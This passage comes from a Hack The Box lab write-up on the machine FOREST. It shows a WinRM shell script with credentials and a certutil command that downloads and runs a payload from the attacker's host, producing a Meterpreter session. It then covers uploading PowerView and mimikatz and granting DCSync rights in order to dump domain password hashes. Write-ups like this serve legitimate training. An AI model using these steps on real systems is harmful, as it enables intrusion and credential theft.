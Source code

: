 We then establish a shell using `Alamot`'s [`winrm_shell.rb`](https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb) and upgrade to a `meterpreter` shell.

{% highlight ruby %}
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new( 
  endpoint: 'http://htb.local:5985/wsman',
  transport: :ssl,
  user: 'htb.local\rizemon',
  password: 'Password123!',
  :no_ssl_peer_verification => true
)
...
{% endhighlight %}

{% highlight bash %}
$ ruby winrm_shell.rb
PS htb\rizemon@FOREST Documents> certutil -f -split -urlcache http://10.10.XX.XX/shell.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.

PS htb\rizemon@FOREST Documents>./shell.exe
{% endhighlight %}

{% highlight raw %}
[*] Sending stage (179779 bytes) to 10.10.10.161
[*] Meterpreter session 1 opened (10.10.XX.XX:1337 -> 10.10.10.161:50337) at 2019-11-16 11:22:12 -0500

meterpreter >
{% endhighlight %}

We are going to need [`PowerView`](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) again as well as [`mimikatz`](https://github.com/gentilkiwi/mimikatz/releases), which is used to dump out the password hashes.

{% highlight raw %}
meterpreter > upload /root/Downloads/PowerView.ps1 .
[*] uploading  : /root/Downloads/PowerView.ps1 -> .
[*] uploaded   : /root/Downloads/PowerView.ps1 -> .\PowerView.ps1
meterpreter > upload /root/Downloads/mimikatz.exe .
[*] uploading  : /root/Downloads/mimikatz.exe -> .
[*] uploaded   : /root/Downloads/mimikatz.exe -> .\mimikatz.exe
{% endhighlight %}

To dump out the hashes, the new user will need the `DCSync` privileges, which consist of the `DS-Replication-Get-Changes`,  `DS-Replication-Get-Changes-All` and `Replicating Directory Changes In Filtered Set` rights. More can be learnt from [here](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync). Fortunately, we can use the `Add-DomainObjectAcl` function to add all 3 privilges for us using the `-Rights DCSync` option.
